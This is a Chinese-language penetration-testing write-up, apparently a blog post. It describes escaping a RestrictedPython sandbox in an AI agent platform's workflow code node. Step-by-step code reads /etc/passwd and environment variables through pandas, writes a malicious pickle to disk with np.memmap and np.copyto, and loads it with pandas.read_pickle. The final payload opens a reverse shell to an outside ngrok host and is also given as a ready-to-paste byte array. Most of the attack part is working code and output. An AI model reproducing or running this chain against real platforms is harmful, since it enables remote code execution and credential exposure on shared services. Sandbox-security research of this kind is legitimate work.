


## 背景

在做渗透测试的时候看到一个Agent平台，允许用户创建并发布自己的智能体。平台支持"工作流"，用户可以通过连接各类"节点"实现对用户输入的灵活处理。

<!-- @xprops width="100%" -->


其中有一类"代码节点"允许用户执行代码（通常是Python）对中间数据进行处理。大部分提供了此功能的Agent平台都会把代码运行在docker中，或者受控的环境中（如只读文件系统），而对于运行的代码本身没有太多管控，通过`os`，`subprocess`等模块能够轻松执行shell命令。

而在这个平台上，代码节点的执行环境是一个Python沙箱，对于常见模块的导入、built-in函数的使用都做了严格限制，最终是利用`pandas`和`numpy`这两个库的文件读写和pickle反序列化能力实现了RCE。

## 探索

### 限制

- 对常见库的导入做了限制，包括但不限于`os`、`subprocess`、`sys`、`importlib`、`pickle`等。

- 一些Python沙箱逃逸常用的built-in函数也是未定义，如`open`、`getattr`等。

- `eval`和`exec`被禁用：

    ```text
    {
        "error" : "\"Traceback (most recent call last):  Execute Error. line 71, in <module>    byte_code = compile_restricted(code, '<string>', 'exec')  Execute Error. line 211, in compile_restricted    raise SyntaxError(result.errors)SyntaxError: ('Line 3: Eval calls are not allowed.',)\""
    }
    ```

- 双下划线属性/方法也被禁用：

    ```text
    {
        "error" : "\"Traceback (most recent call last):  Execute Error. line 71, in <module>    byte_code = compile_restricted(code, '<string>', 'exec')  Execute Error. line 211, in compile_restricted    raise SyntaxError(result.errors)SyntaxError: ('Line 3: \\\"__class__\\\" is an invalid attribute name because it starts with \\\"_\\\".',)\""
    }
    ```

- 从报错中的`compile_restricted`可以推测出这个沙箱是基于[RestrictedPython](https://restrictedpython.readthedocs.io/en/latest/)实现的。

### 绕过

RestrictedPython是基于AST的沙箱实现，因此我在考虑能否通过借助一些第三方库的能力，绕过原生代码的编写，来达到漏洞利用的目的。简单测下来发现`pandas`和`numpy`都可以正常导入使用。

测试时面对各种沙箱限制的绕过，也找资料搜集了一些方案，故把详细的碰壁过程也记录下来。

### LFI

尽管`open`等常见的文件操作函数被禁用，但`pandas`提供了`read_csv`等函数可以读取文件内容。

```python
def main(args: Args) -> Output:
    import pandas as pd
    return {
        "etc": pd.read_csv("/etc/passwd").to_string(),
        "env": pd.read_csv("/proc/self/environ").to_string(),
    }
```

```text
{
    "etc" : "root:x:0:0:root:/root:/bin/...",
    "env" : "Empty DataFrame\nColumns: [HOSTNAME=...]\nIndex: []"
}
```

### RCE初步思路：numpy.load

尽管`pickle`库被禁用，`numpy`和`pandas`库中都有加载pickle数据的函数，如`numpy.load(..., allow_pickle=True)`和`pandas.read_pickle(...)`，因此如果能让服务端加载一个恶意pickle payload就能实现RCE。

最开始我想尝试fileless方案，类似于：

```python
import numpy as np
import io

pickle_data = b"..."
f = io.BytesIO(pickle_data)
np.load(f, allow_pickle=True)
```

但是可惜`io`库也被禁用了。原则上，可以自己写文件接口模拟一个文件对象，只要支持`read`、`seek`，存在`readline`方法即可：

```python
import numpy as np

class FakeFile:
    def __init__(self, data):
        self.data = data
        self.ptr = 0

    def read(self, size=-1):
        if size == -1:
            res = self.data[self.ptr:]
            self.ptr = len(self.data)
        else:
            res = self.data[self.ptr: self.ptr + size]
            self.ptr += size
        return res

    def seek(self, offset, whence=0):
        if whence == 0:
            self.ptr = offset
        elif whence == 1:
            self.ptr += offset
        elif whence == 2:
            self.ptr = len(self.data) + offset
        return self.ptr

    def readline(self):
        pass

pickle_data = b"..."
f = FakeFile(pickle_data)
np.load(f, allow_pickle=True)
```

本地顺利通过，然而在远程还需要依次绕过这三个限制：

1. `Augmented assignment of attributes is not allowed`

    RestrictedPython禁用了复合赋值语句（如`a += b`），需要改成普通的赋值语句（如`a = a + b`）。这个限制是为了防止通过重载`__iadd__`等方法实现不安全的操作。

1. `attribute-less object (assign or del)`

    不允许对象属性赋值，如`obj.attr = ...`。

1. `source code string cannot contain null bytes`

    不允许字符串常量（`pickle_data`）中出现`\x00`。

不允许对象属性赋值，就用一个列表来模拟全局测试，`d[0]`代替`self.data`，`d[1]`代替`self.ptr`；检查字符串常量，就用`bytes([...])`的形式来定义。

```python
import numpy as np

pickle_data = bytes([...])
d = [pickle_data, 0]

class FakeFile:
    def read(self, size=-1):
        if size == -1:
            res = d[0][d[1]:]
            d[1] = len(d[0])
        else:
            res = d[0][d[1]: d[1] + size]
            d[1] = d[1] + size
        return res

    def seek(self, offset, whence=0):
        if whence == 0:
            d[1] = offset
        elif whence == 1:
            d[1] = d[1] + offset
        elif whence == 2:
            d[1] = len(d[0]) + offset
        return d[1]

    def readline(self):
        pass

f = FakeFile()
np.load(f, allow_pickle=True)
```

终于，得到了...

```text
{
    "error" : "No module named 'numpy._core'\n"
}
```

### 转向pandas.read_pickle

既然`numpy.load`失败了，我转向了`pandas.read_pickle`。`pandas.read_pickle`还需要我们的`FakeFile`类支持`readlines`接口。在把一切都实现好后，本地也跑得通，到了远程再次报错：

```text
{
    "error" : "Invalid file path or buffer object type: <class 'restricted_module.main.<locals>.FakeFile'>\n"
}
```

从`pandas`源码来看，或许是RestrictedPython的特殊环境导致`hasattr(filepath_or_buffer, "read")`没有判断成功吧...

<!-- @xprops highlightLines="2" -->

```python
if not (
    hasattr(filepath_or_buffer, "read") or hasattr(filepath_or_buffer, "write")
):
    msg = f"Invalid file path or buffer object type: {type(filepath_or_buffer)}"
    raise ValueError(msg)
```

> `pd.read_pickle(...)`的第一个参数是支持传入URL的，或许这是一个走得通的方案；但是起一个托管服务有点麻烦，就没有再做尝试。

### 文件写入

接下来我就想把payload直接写入本地，然后直接传入路径来加载。因此接下来我尝试找到一个没有被限制的API，能够把二进制数据写到本地。最开始尝试：

```python
import numpy as np

data = bytes([0, 1, 2, 3])
arr = np.frombuffer(data, dtype=np.uint8)
arr.tofile("output.bin")
```

结果得到报错：

```text
{
    "error" : "模块 numpy.compat 被禁止\n"
}
```

`pandas`那边也没找到特别好的写文件入口（大多都是针对特定文件格式封装的API）。最后是发现了`np.memmap`这个API，可以将磁盘文件直接映射为内存中的`numpy`数组，实现像操作普通数组赋值一样，通过修改内存数据来实时地读写本地文件。

```python
import numpy as np

arr = [0, 1, 2, 3]
f = np.memmap("output.bin", dtype="uint8", mode="w+", shape=(len(arr),))
f[:] = arr
f.flush()

# xxd output.bin
# 00000000: 0001 0203                ....
```

本地没问题，到了远程又是报错：

```text
{
    "error" : "object does not support item or slice assignment\n"
}
```

这次使用`np.copyto(f, np.array(arr, dtype="uint8"))`来代替`f[:] = arr`，本地通过，远程也通过！

## 完整流程

最终的利用流程是，我们首先在本地生成恶意的pickle payload：

```python
import pickle
import os


class Payload:
    def __reduce__(self):
        cmd = "sh -i >& /dev/tcp/0.tcp.jp.ngrok.io/18431 0>&1"
        return os.system, (cmd,)


payload_bytes = pickle.dumps(Payload(), protocol=0)
template = f"""
def main(args: Args) -> Output:
    import numpy as np
    import pandas as pd

    arr = {list(payload_bytes)}
    f = np.memmap("/tmp/poc", dtype="uint8", mode="w+", shape=(len(arr),))
    numpy.copyto(f, np.array(arr, dtype="uint8"))
    f.flush()

    pd.read_pickle("/tmp/poc")

    return 0
"""

print(template)
```

上述代码会输出接下来要复制到远程（"工作流"代码节点）中的脚本：

```python
def main(args: Args) -> Output:
    import numpy as np
    import pandas as pd

    arr = [99, 111, 115, 10, 115, 121, 115, 116, 101, 109, 10, 112, 48, 10, 40, 86, 115, 104, 32, 45, 105, 32, 62, 38, 32, 47, 100, 101, 118, 47, 116, 99, 112, 47, 48, 46, 116, 99, 112, 46, 106, 112, 46, 110, 103, 114, 111, 107, 46, 105, 111, 47, 49, 56, 52, 51, 49, 32, 48, 62, 38, 49, 10, 112, 49, 10, 116, 112, 50, 10, 82, 112, 51, 10, 46]
    f = np.memmap("/tmp/poc", dtype="uint8", mode="w+", shape=(len(arr),))
    numpy.copyto(f, np.array(arr, dtype="uint8"))
    f.flush()

    pd.read_pickle("/tmp/poc")

    return 0
```

运行，拿shell！

<!-- @xprops width="100%" -->




